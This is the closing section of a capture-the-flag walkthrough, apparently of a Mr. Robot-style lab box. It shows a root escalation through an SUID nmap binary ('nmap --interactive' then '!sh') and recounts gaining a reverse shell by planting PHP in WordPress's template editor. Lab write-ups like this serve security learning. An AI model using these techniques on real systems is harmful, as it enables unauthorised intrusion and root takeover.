

### Box rooted!

```bash
/usr/local/bin/nmap --interactive
```
```bash
!sh
```
```bash
whoami
```

#### Output:

root



### Found the third key!





## Conclusion:

### This box took me about four hours to complete.

### Tools I used:

- **Nmap**
- **Hash identifier**
- **Hashcat**
- **Burpsuite**
- **Hydra**
- **Netcat**
- **Python pty**


### New Things I learned:

- **Inserting malicious php code in wordpress' template editor and executing it to gain a reverse shell.**

- **Python's pty module and its spawn() function to get a bash shell.**

- **Escalating privilege to root by executing `!sh` while running nmap in its interactive mode while the SUID is set**.

---